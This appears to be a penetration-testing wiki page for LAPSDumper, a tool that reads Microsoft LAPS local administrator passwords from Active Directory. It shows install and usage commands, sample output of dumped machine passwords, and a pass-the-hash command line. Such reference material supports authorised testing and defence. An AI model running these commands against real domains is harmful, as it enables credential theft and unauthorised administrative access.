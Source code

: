 ```yaml
---
title : "LAPSdumper"
# pre : ' '
description : "Dump LAPS Passwords."
date : 2020-12-21T14:32:07+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Other', 'LDAP', 'Active Directory']
---
```


## LAPSdumper

Dump LAPS (Microsoft Local Administrator Password Solution) Passwords.

## Installation

```plain
git clone https://github.com/n00py/LAPSDumper
```

## Usage

```plain
laps.py [-h] -u USERNAME -p PASSWORD [-l LDAPSERVER] -d DOMAIN
```

## Flags

```plain
optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        username for LDAP
  -p PASSWORD, --password PASSWORD
                        password for LDAP (or LM:NT hash)
  -l LDAPSERVER, --ldapserver LDAPSERVER
                        LDAP server (or domain)
  -d DOMAIN, --domain DOMAIN
                        Domain
```

## Examples

```plain
$ python3 laps.py -u user -p password -d domain.local

COMPUTER01$:B#g4%aI$K!yZ)q}
COMPUTER02$:n-6pW-n8L!o8Of]
COMPUTER03$:u2Oc9z&{R)fHA2J
COMPUTER04$:Rwb2#4,{@N4Y19v
COMPUTER05$:17aZ,+1L5L((D0F
COMPUTER06$:DNX&@e.8XTQhyPj
COMPUTER07$:U3ZXf0vX!Xm1P89
COMPUTER08$:.6IvTd7-85ytJeF
COMPUTER09$:P2(VSN4%49!%fI8
```

### Pass-the-Hash specific LDAP server

```plain
python3 laps.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local
```

## URL List

* [GitHub.com - LAPSDumper](https://github.com/n00py/LAPSDumper)
* [n00py.io - Dumping LAPS passwords from Linux](https://www.n00py.io/2020/12/dumping-laps-passwords-from-linux/)
* [ADSecurity.org - Microsoft Local Administrator Password Solution (LAPS)](https://adsecurity.org/?p=1790)
* [ADSecurity.org - Microsoft LAPS Security & Active Directory LAPS Configuration Recon](https://adsecurity.org/?p=3164)
